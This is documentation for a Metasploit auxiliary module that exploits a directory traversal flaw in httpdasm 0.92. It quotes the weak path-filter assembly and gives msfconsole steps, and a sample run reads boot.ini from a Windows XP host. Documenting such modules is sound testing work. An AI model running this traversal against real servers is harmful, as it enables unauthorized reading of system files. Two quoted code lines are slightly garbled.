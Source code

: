 ## Description

  This module exploits a directory traversal vulnerability to read files from a server running httpdasm v0.92.

## Vulnerable Application

  httpdasm 0.92

  The vulnerability can be found in HTTPRqst.asm file.

  The beginning of the ServeContent routine attempts to check file path with SafeFilePath:

  ```
  1403 invoke SafeFilePath, __this
  1404 .if (!eax) ;File is not safe
  1405 mov m_dwCode, HTTP_STATUS_FORBIDDEN
  1406 jmp doneHTTPGet
  1407 .endif
  1408 invoke ExtractFilename, __this
  1409 .if (!eax)
  1410 mov m_dwCode, HTTP_STATUS_URI_TOO_LONG ;max URI is 256 here
  1411 jmp doneHTTPGe$
  1412 .endif
  ```

  The SafeFilePath checks for directory traversal with these possible values such as "..", "//", "\", ":", which is inadequate to prevent a traversal attack:

  ```
  502 .if ((cx == '..') || (cx == '//') || (cl == '\') || (cl == ':'))
  1503 return 0
  1504 .endif
  ```


## Verification Steps

  1. Start `msfconsole`
  2. `use [auxiliary/scanner/http/httpdasm_directory_traversal]`
  3. `set RHOSTS [IP]`
  4. `run`

## Scenarios

### Tested on Windows XP x86

  ```
  msf5 > use auxiliary/scanner/http/httpdasm_directory_traversal
  msf5 auxiliary(scanner/http/httpdasm_directory_traversal) > set rhosts 192.168.37.128
  rhosts => 192.168.37.128
  msf5 auxiliary(scanner/http/httpdasm_directory_traversal) > run

  [boot loader]
  timeout=30
  default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
  [operating systems]
  multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" /noexecute=optin /fastdetect

  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/http/httpdasm_directory_traversal) >
  ```
